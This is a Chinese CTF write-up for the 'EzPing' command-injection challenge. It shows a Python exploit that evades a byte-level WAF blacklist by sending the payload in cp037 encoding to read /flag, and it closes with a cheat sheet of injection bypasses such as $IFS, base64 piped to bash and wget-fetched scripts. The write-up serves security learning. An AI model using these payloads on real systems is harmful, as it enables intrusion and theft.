




EzPing¶
题目描述：这是一个命令注入题目... 解题思路：首先发现参数存在命令拼接...
概括¶
本题的考点演进路径：
核心：WAF 与业务代码对同一份数据使用了不同的编码/解码方式信息收集¶
典型的命令注入类型题目，给出了网站源码和相关信息


对题目给的附件进行代码审计def waf_middleware():
raw_data = request.get_data()
blacklist = [
b'flag', b'cat', b'ls', b'bash', b'sh', b'nc',
b';', b'|', b'&', b'$', b'>', b'<', b'`', b'\n', b'\\'
]
for word in blacklist:
if word in raw_data:
return jsonify({'error': 'No hacker!'}), 403
class CustomRequest(Request):
@property
def charset(self):
try:
return self.mimetype_params.get('charset', 'utf-8')
except:
return 'utf-8'
app = Flask(__name__)
app.request_class = CustomRequest
线索梳理¶
WAF 检查的是原始字节流，黑名单是基于 ASCII/UTF-8 编码的字节值硬编码的，而服务端的解码方式可以由Content-Type 中的 charset 参数控制，一次可以通过编码界面方式的差异如果waf执行命令
绕过waf的payload构造¶
import requests
import json
url="http://127.0.0.1:58929/api/ping"
encoding="cp037"
json_data={"target":"127.0.0.1;cat /flag"}
json_str=json.dumps(json_data)
encoded_data=json_str.encode(encoding)
headers={"Content_Type":f"application/json;charset={encoding}"}
response=requests.post(url,data=encoded_data,headers=headers)
print(response.status_code)
print(response.text)

知识点整理¶
- 本题
- 什么是“原始字节流”：原始字节流是指 HTTP 请求体在传输过程中未经任何字符编码解码的原生二进制数据
- request.get_data() 的工作原理
返回类型：bytes 类型（Python 中的字节串）
不做解码：不关心 Content-Type 中的 charset
完整获取：读取整个请求体原始数据
不修改数据：保持 HTTP 传输时的原样
完整的请求流程：
# Flask 内部简化逻辑 def get_data(self): # 直接从 WSGI 环境读取原始输入流 return self._get_data_for_cache(cache=self._cached_data)# 1. Web 服务器接收原始 HTTP 请求 POST /ping HTTP/1.1 Content-Type: application/json Content-Length: 28 {"target":"127.0.0.1"} # 2. WSGI 服务器创建环境变量字典 environ = { 'REQUEST_METHOD': 'POST', 'CONTENT_TYPE': 'application/json', 'CONTENT_LENGTH': '28', 'wsgi.input': <file-like object>, # 这是一个文件对象，包含原始请求体 # ... 其他 WSGI 变量 } # 3. Flask 通过 WSGI 的 input 流读取数据 - 黑名单检查的具体过程 字节串查找示例
- Flask 自定义 Request 类与 Charset 控制
作用：允许客户端通过 Content-Type 中的 charset 参数，控制 Flask 解码请求体时使用的字符集。 正常情况：
class CustomRequest(Request): @property def charset(self): return self.mimetype_params.get('charset', 'utf-8')Content-Type: application/json; charset=utf-8攻击情况：Content-Type: application/json; charset=cp037 - 原始字节 vs 解码字符串 —— 本质区别
# 场景1：UTF-8 编码 raw_utf8 = b'cat' # 0x63 0x61 0x74 decoded = raw_utf8.decode('utf-8') # "cat" # ✅ WAF 能拦截，业务代码也能执行 # 场景2：EBCDIC (cp037) 编码 raw_ebcdic = b'\x83\x81\xa3' # 这是 "cat" 在 cp037 中的表示 decoded = raw_ebcdic.decode('cp037') # "cat" # WAF 检查时： b'cat' in raw_ebcdic # False！因为 raw_ebcdic 是 0x83 0x81 0xa3 # 但业务代码执行时： subprocess.run(f"ping -c 1 {decoded}") # 执行了 "cat" 命令 - 正常HTTP 请求中的完整流程
# 1. 代码（人类可读） data = '{"target":"cat /flag"}' # 2. 编码：变成字节流（准备发送） bytes_to_send = data.encode('utf-8') # 结果：b'{"target":"cat /flag"}' # 3. 通过网络传输（线路上是 0 和 1） # 01011100 ... # 4. 服务器接收（收到的是字节流） received_bytes = b'{"target":"cat /flag"}' # 5. 解码：变回人类可读（业务代码使用） received_string = received_bytes.decode('utf-8') # 结果：'{"target":"cat /flag"}' - 通过编解码方式差异绕过WAF过程
攻击者操作步骤
服务器端
# 步骤1：攻击者想发送恶意字符串 malicious_string = "cat /flag" # 步骤2：选择一种非 ASCII 编码（比如 cp037） encoded_bytes = malicious_string.encode('cp037') # 结果：b'\x83\x81\xa3\x40\x2f\x86\x81\x87' # 步骤3：发送 HTTP 请求，告诉服务器"请用 cp037 解码" # Content-Type: application/json; charset=cp037 # Body: {"target":"\x83\x81\xa3\x40\x2f\x86\x81\x87"}关键条件： 编码必须是 Python 支持（如 cp037、cp500、ibm039 等） 编码必须与 ASCII 不兼容，使得常见黑名单字节不会出现# WAF 看到的（原始字节流） raw = request.get_data() # b'\x83\x81\xa3\x40\x2f\x86\x81\x87' if b'cat' in raw: # 查找 b'cat' = b'\x63\x61\x74'（基于 ASCII/UTF-8 编码的字节值） # 找不到！因为原始字节是 \x83\x81\xa3 pass # 业务代码看到的（解码后） decoded = raw.decode('cp037') # "cat /flag" target = json.loads(decoded)['target'] # "cat /flag" os.system(f"ping {target}") # 执行了 cat /flag - 扩展
- Python 标准编码列表
参考：
https://docs.python.org/3/library/codecs.html#standard-encodings常用不兼容 ASCII 编码： cp037（EBCDIC US/Canada） cp500（EBCDIC International） cp1047（Linux on IBM Z） cp875（Greek EBCDIC） - 命令注入的其他绕过技巧
- 绕过空格过滤
$IFS{}$IFS$9\n\t<,>
- 绕过黑名单关键词
- 通配符
* - 反斜杠截断
\ - 内联命令执行
cat $(ls) - 变量拼接
a=fl;b=ag;cat /$a$b - 编码绕过
echo "Y2F0IC9mbGFn" | base64 -d | bash - 环境变量截取
${PATH:0:1}代表第一个字符 /
- 通配符
- 命令分隔符与绕过技巧

- 绕过长度限制 使用 wget 下载远程脚本执行 使用 echo "..." | base64 -d | bash 利用 * 执行文件名
- 绕过字符集过滤（本题目核心） 使用非 ASCII 编码（如 EBCDIC、UTF-16、UTF-32、UCS-2） 使用畸形编码（如 utf-8 中插入无效字节，某些解析器会忽略） 利用 HTTP 协议中的 charset 参数
- 利用请求方法或协议特性 Content-Type: application/json; charset=utf-16【某些 WAF 只检查 utf-8 或原始字节】 分块传输（Transfer-Encoding: chunked）【部分 WAF 不解析 chunked 体】 参数污染（HTTP Parameter Pollution）
- 绕过空格过滤